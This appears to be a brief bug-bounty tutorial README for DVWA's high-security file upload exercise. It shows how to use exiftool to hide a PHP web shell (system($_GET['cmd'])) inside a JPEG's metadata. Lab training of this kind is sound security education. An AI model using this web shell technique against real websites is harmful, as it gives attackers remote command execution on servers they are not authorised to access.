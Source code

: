 # bug-bounty-tutorial
bug bounty tutorial

## 3.dvwa file upload high
```
apt-get install exiftools

exiftool -DocumentName='<?php system($_GET["cmd"]); ?>' index.jpeg


```
